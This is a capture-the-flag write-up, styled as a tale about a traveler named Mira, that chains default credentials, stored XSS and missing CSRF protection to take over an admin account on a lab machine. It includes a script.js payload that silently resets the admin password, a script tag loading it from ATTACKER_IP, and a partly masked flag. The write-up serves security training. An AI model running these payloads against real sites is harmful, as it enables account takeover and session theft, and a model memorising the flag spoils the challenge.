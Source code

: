 # The Curious Traveler — Full Writeup for Chaining Vulnerabilities

In the bustling digital bazaar of *Valoria*, every merchant’s stall is a web application, and every traveler’s purse is a user account. Few notice the tiny cracks between wooden boards—until a cunning explorer threads her way through, one crack at a time, until she stands in the merchant’s private vault.

This is the tale of **Mira, the Curious Traveler**, and how she turned harmless quirks into a path straight to the vault door.

---

## Task 1: Preparing for the Journey

Mira eased herself into her camp, humming the familiar tune of exploration. Before any grand feat, she knew the importance of gear checks.

### Start Your Tools

* Boot up the AttackBox (or connect your VPN).
* Spin up the Target Machine on `10.10.177.6`.

### Gather Your Kit

* A browser for reconnaissance.
* A terminal for command-line spells.
* A text editor to scribe her cunning plans.

> “Every explorer knows that an unfinished map is an invitation to get lost,” she mused, checking her compass.

---

## Setting the Stage: The Philosophy of Chaining

*Vulnerability chaining* is the art of linking minor flaws—each innocuous alone—into a sequence that cracks open the whole system. It’s not about exploding the wall with one hit, but finding each loose brick, nudging it, and then lifting the entire barrier.

---

## Task 2: The Spark — Finding the First Loose Stone

In front of her lay the gate labeled **Login**. Many travelers stopped here, weary of strong passwords. Mira smiled.

### Try the Common Key

```bash
# Open the application in your browser:
http://10.10.177.6/
# Enter credentials:
Username: testuser
Password: password123
```

**Result**

She strolled right in. A simple test account remained by oversight—her first foothold.

---

## Task 3: Discovering the Hidden Window

Inside the courtyard of user features, Mira spotted a tiny painted window marked **Edit Profile**.

### Inspect the “Display Name” Field

#### Craft a Test Petard

```xml
<script>alert(1)</script>
```

**Outcome**

The alert bloomed like fireworks—this field reflected input without barriers. A **Stored XSS** crack had opened.

---

## Task 4: The Masterstroke — Turning the Whisper Into a Roar

The true vault, the **Admin Panel**, lay beyond a guarded door. Mira’s plan: whisper a command into the guard’s ear, and have him hand over the master key.

### Step 4.1: Forge the Whisper (Malicious Script)

On her AttackBox, Mira penned `script.js`:

```javascript
// script.js – The Whisper
fetch('/update_email.php', {
  method: 'POST',
  credentials: 'include',
  headers: {'Content-Type':'application/x-www-form-urlencoded'},
  body: 'email=pwnedadmin@evil.local&password=pwnedadmin'
});
```

### Step 4.2: Host the Whisper

```bash
python3 -m http.server 8000
```

### Step 4.3: Bury the Whisper in the Window

Back on the target, she returned to **Edit Profile** and replaced her display name with:

```xml
<script src="http://ATTACKER_IP:8000/script.js"></script>
```

> Replace `ATTACKER_IP` with your AttackBox’s IP.

### Step 4.4: Await the Vault Guard

She monitored her server logs:

```bash
# Watch for the admin’s request for script.js
tail -f access.log
```

When she saw:

```
10.10.177.6 - - [18/Sep/2025 00:05:12] "GET /script.js HTTP/1.1" 200 -
```

she knew the guard had glanced through her window. The malicious `POST` had run, resetting the admin’s credentials.

### Step 4.5: Claim the Master Key

Mira navigated to the login portal again and entered:

```bash
# Browser:
http://10.10.177.6/

# Login form:
Username: admin
Password: pwnedadmin
```

The vault door swung open, revealing the coveted flag on a golden pedestal.

---

## Task 4 – Questions & Answers

**What is the flag in the admin panel?**

```
THM{57648b8e-3382-****-****-f125e128f8ab}
```

**What vulnerability enabled the attacker to force a change in the admin user’s password?**

> **Cross-Site Scripting** (Stored XSS)

---

## Task 5: Alternate Paths & Pivot Points

Real journeys twist and fork. If the guard’s door had CSRF tokens, Mira could have used her XSS to steal session cookies or trick him into other actions. Creative pivoting ensures no single roadblock ends the adventure.

---

## Task 6: Reflections & Lessons Learned

Holding the flag aloft, Mira reflected:

* Weak credentials opened a gate.
* Stored XSS cracked a window.
* Missing CSRF protection let her whisper unseen commands.
* Trust assumptions turned an admin glance into her triumph.

Alone, each flaw might have been dismissed. Together, they formed a path from the courtyard to the vault’s heart.

---

## Conclusion: The Explorer’s Creed

“Curiosity reveals hidden passages. Creativity turns small cracks into grand pathways.”

Approach every web application as Mira did: scout thoroughly, map vulnerabilities, connect them logically, and pivot when needed. In storytelling your chain, show the full journey—from low-risk footholds to full compromise—and you’ll illuminate the true impact of vulnerability chaining.
